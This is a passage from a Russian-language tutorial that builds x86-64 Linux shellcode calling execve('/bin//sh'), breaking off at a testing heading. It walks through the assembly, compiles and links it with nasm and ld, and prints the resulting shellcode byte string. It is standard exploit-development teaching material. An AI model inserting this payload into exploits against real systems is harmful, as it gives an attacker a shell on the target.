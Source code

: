 Теперь собираем все воедино.  
Кладем в стек символ конца строки (помним, что все делается в обратном порядке):

```
xor rdx, rdx
push rdx
```

Кладем в стек строку **/bin//sh: mov rax, 0x68732f2f6e69622f**  
**push rax**

Получаем адрес строки **/bin//sh** в стеке и сразу помещаем его в **rdi: mov rdi, rsp**

В rsi необходимо положить указатель на массив строк. В нашем случае этот массив будет содержать только путь до исполняемого файла, поэтому достаточно положить туда адрес, который ссылается на память, где лежит адрес строки (на языке С указатель на указатель). Адрес строки у нас уже есть, он находится в регистре rdi. Массив argv должен заканчиваться null-байтом, который у нас находится в регистре **rdx:**

```
push rdx
push rdi
mov rsi, rsp
```

Теперь **rsi** указывает на адрес в стеке, в котором лежит указатель на строку **/bin//sh.**

Кладем в **rax** номер функции **execve(): xor rax, rax  
mov al, 0x3b**

### В итоге получили такой файл:

![[Pasted image 20230619024259.png]]

### Компилируем и линкуем под x64. Для этого:

```
$ nasm -f elf64 example.asm
$ ld -m elf_x86_64 -s -o example example.o
```

Теперь можем использовать **objdump -d example** для того, чтобы посмотреть получившийся файл:

![[Pasted image 20230619024320.png]]

Чтобы получить шелл-код вида **x11x22…** из бинарника, можем воспользоваться следующим кодом:

![[Pasted image 20230619024336.png]]

В результате получаем:

```
x48x31xd2x52x48xb8x2fx62x69x6ex2fx2fx73x68x50x48x89
xe7x52x57x48x89xe6x48x31xc0xb0x3bx0fx05
```

### Тестируем шелл-код
